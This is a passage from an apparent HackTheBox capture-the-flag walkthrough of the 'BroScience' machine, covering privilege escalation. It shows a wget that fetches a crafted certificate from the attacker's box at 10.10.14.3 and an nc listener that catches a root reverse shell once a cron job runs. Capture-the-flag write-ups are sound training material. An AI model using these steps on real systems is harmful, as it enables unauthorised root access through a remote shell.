 ```bash
cd /home/bill/Certs

# Retrieve the cert from the attack box
wget http://10.10.14.3:5454/broscience.crt

```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/broscience/4_1_load_cert.png" width="80%">
</p>  


Now, listen to the connection and wait for the cron job to execute the script with our certificate

```bash

nc -lvnp 5453

```

And we get our root revshell:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/broscience/5_0_root.png" width="80%">
</p>  



